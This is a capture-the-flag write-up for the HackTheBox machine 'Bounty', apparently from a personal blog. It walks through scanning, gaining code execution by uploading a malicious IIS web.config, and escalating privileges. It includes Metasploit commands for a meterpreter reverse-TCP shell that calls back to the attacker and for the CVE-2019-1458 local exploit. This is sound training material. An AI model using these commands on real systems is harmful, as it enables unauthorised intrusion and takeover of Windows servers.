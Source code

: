```yaml
---
title: "Bounty - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Bounty
![](https://kar0nx.github.io/assets/images/writeup/a7686636f7cebb477cb7b6d6ce729f2c.png)
## Reconnaissance

IP: 10.10.10.93
## NMAP

```
nmap -T4 -p- -A 10.10.10.93
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-10 14:48 UTC
Nmap scan report for 10.10.10.93
Host is up (0.031s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.15 ms 10.10.14.1
2   31.10 ms 10.10.10.93

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.92 seconds
```

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910165300.png)

We can spot that site sits on asp.net so I added extensions to feroxbuster

```
feroxbuster -u http://10.10.10.93/ -x asp,aspx,html,php,xml,json,txt,log
```

and we got /transfer.aspx

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910165931.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910165416.png)

tried to upload aspx webshell but didn't work, searching google I found that I can RCE via web.config file 
https://jaykiee.medium.com/rce-by-uploading-a-web-config-7390e140a45b

found better code on PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config

create web.config from this post and uploaded it 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910172648.png)

now navigating to `http://10.10.10.93/UploadedFiles/web.config`

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910173020.png)

now created reverse shell with powershell base64
https://www.revshells.com/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910174947.png)

and now navigate to merlin desktop to get user.txt

```

```

## Privilege Escalation

Many options, cause it is very old box, godpotato or printspooler should work

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910180036.png)

This time I want to practice wes-ng so let's grab systeminfo (you can manually search for os version exploits, cause there is no hotfixes)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910180614.png)

and paste it into wes-ng catalog

```
python3 wes.py systeminfo.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910180918.png)

and pick one priv esc, I like MS10-059

ok wasted about 30min and can't even execute any app like winpeas on machine so screw it and move to metasploit use:

```
use multi/script/web_delivery
set payload windows/x64/meterpreter/reverse_tcp
set lhost tun0
set lport 8888
set target 2
run

cp shell from msf and paste in your shell
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910192748.png)

now let's search for post exploits

```
run post/multi/recon/local_exploit_suggester
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910193906.png)

and use any of this 3 and 5 works for me

```
use exploit/windows/local/cve_2019_1458_wizardopium
set lport 4545
set lhost tun0
set session 2
run
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910193835.png)

now grab root.txt